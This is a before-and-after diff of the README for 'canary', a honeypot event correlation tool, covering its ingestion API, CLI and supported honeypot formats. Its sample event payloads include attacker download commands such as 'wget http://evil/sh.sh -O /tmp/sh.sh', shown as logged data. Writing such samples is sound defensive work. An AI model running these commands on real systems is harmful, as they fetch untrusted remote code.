

Before and after one commit to s1d9e/canary, a Markdown page: README.md, the part around one of its changes. Shown at 85% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs: professional README (badges, architecture, API/CLI reference, honeybot integrations, roadmap)

````diff
--- a/README.md
+++ b/README.md
@@ -53,22 +98,26 @@ canary ingest ./event.json
 
-# Live Rich TUI
-canary tui
+# 5. Explore
+canary top --limit 10     # top attackers by risk score
+canary profile 203.0.113.7
+canary tui                # live terminal dashboard
+canary export stix
 ```
 
-### Pointing a honeypot at Canary
+## Connecting your honeypots
 
-Each honeypot posts events to the ingestion endpoint `POST /api/v1/events` with a JSON body like:
+Every honeypot posts JSON to `POST /api/v1/events`. Canonical payload:
 
 ```json
 {
-  "honeypot": "blood-web",
+  "honeypot": "voltron-ssh",
+  "event_type": "auth",
   "protocol": "ssh",
   "src_ip": "203.0.113.7",
   "src_port": 51234,
   "dst_ip": "10.0.0.5",
   "dst_port": 22,
   "timestamp": "2026-09-07T12:34:56Z",
-  "session_id": "b3f1...",
+  "session_id": "b3f1…",
   "username": "root",
   "password": "toor",
   "command": "wget http://evil/exploit.sh",
@@ -76,29 +125,49 @@ Each honeypot posts events to the ingestion endpoint `POST /api/v1/events` with
 }
 ```
 
-## CLI
+Native formats are also accepted — Canary auto-detects the source:
+
+| Honeypot | Format auto-detected | Example |
+|---|---|---|
+| **Cowrie** | raw JSON log / HPFEEDS | `{"eventid":"cowrie.command.input","src_ip":"192.0.2.9", …}` |
+| **blood-web** | canonical JSON | `{"honeypot":"blood-web","protocol":"ssh", …}` |
+| **voltron-ssh** | canonical JSON | `{"honeypot":"voltron-ssh","event_type":"command", …}` |
+| **Backrooms** | canonical JSON | `{"honeypot":"backrooms","protocol":"smb", …}` |
+| **Custom** | any mapping in a normalizer | extend `canary/ingest/normalizer.py` |
+
+Webhook forwarding for your honeypots is a one-liner, e.g. with `curl`:
 
 ```bash
-# Start the ingestion API (default 127.0.0.1:8080)
-canary serve --host 0.0.0.0 --port 8080
-# Require an API token on the ingestion endpoint
-canary serve --token s3cret
-
-# Start the Flask dashboard (read-only, default 127.0.0.1:5000)
-canary web
-
-# Interactive terminal dashboard (live correlation view)
-canary tui --refresh 5
-
-# Show top attackers by risk score
-canary top --limit 10
-
-# Show a full attacker profile + ATT&CK coverage
-canary profile 203.0.113.7
-
-# Export IOCs
-canary export stix --name iocs
-canary export csv --name attackers
+curl -s -X POST http://127.0.0.1:8080/api/v1/events \
+  -H "Content-Type: application/json" \
+  -d '{"honeypot":"blood-web","protocol":"http","src_ip":"198.51.100.23",\
+       "url":"/shell.php","user_agent":"python-requests/2.31",\
+       "raw":"wget http://evil/sh.sh -O /tmp/sh.sh"}' \
+  -H "X-API-Token: your-token"   # only if you started `canary serve --token`
 ```
 
-## Project Structure
+## API reference
+
+| Endpoint | Method | Description |
+|---|---|---|
+| `/api/v1/events` | `POST` | Ingest a honeypot event (201 on accepted) |
+| `/api/v1/health` | `GET` | Liveness probe |
+| `/api/events` | `GET` | Up to 200 most recent events (web frontend) |
+| `/api/attackers` | `GET` | Top attackers by risk score |
+| `/api/attacker/<key>` | `GET` | Full attacker profile |
+| `/api/stats` | `GET` | Global counters |
+| `/api/export/stix` | `GET` | STIX 2.1 bundle of all indicators |
+
+## CLI reference
+
+| Command | Description |
+|---|---|
+| `canary init` | Write default config + create the database |
+| `canary serve [--host --port --token]` | Ingestion API (aiohttp) |
+| `canary web [--host --port]` | Flask dashboard |
+| `canary tui [--refresh]` | Live Rich TUI |
+| `canary ingest <path-or-json>` | Ingest one event |
+| `canary top [--limit]` | Top attackers |
+| `canary profile <key>` | Full attacker + ATT&amp;CK coverage |
+| `canary export <stix\|csv> [--name]` | Export IOCs |
+
````
Also changed, not shown: other parts of README.md (+130 -63 lines).
